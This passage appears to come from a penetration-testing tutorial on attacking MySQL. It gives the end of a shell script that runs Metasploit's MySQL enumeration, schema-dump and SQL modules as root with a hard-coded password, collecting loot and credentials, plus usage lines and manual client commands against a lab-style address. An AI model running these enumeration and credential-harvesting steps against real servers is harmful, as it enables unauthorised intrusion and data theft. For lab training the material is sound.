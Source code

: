 ```bash
creds;

echo '[+] Enumerating MySQL information';
use auxiliary/admin/mysql/mysql_enum;
set USERNAME root;
set PASSWORD twinkle;
run;

echo '[+] Dumping database schema';
use auxiliary/admin/mysql/mysql_schemadump;
set USERNAME root;
set PASSWORD twinkle;
run;

echo '[+] Executing information gathering queries';
use auxiliary/admin/mysql/mysql_sql;
set USERNAME root;
set PASSWORD twinkle;
set SQL 'show databases;';
run;
set SQL 'select user, host from mysql.user;';
run;

echo '[+] MySQL enumeration complete';
loot;
creds;
exit" > $OUTPUT_DIR/full_report.txt

echo "[+] Comprehensive report saved to $OUTPUT_DIR/full_report.txt"
```

**Usage**:

```bash
chmod +x mysql_complete_enum.sh
./mysql_complete_enum.sh 192.168.1.100
```

## Manual MySQL Interaction

### Command-Line MySQL Client

```bash
# Connect to MySQL server
mysql -h 192.168.1.100 -u root -p

# Enter password when prompted: twinkle

# Basic enumeration commands
mysql> show databases;
mysql> use information_schema;
mysql> show tables;
mysql> select * from SCHEMATA;
mysql> quit
```

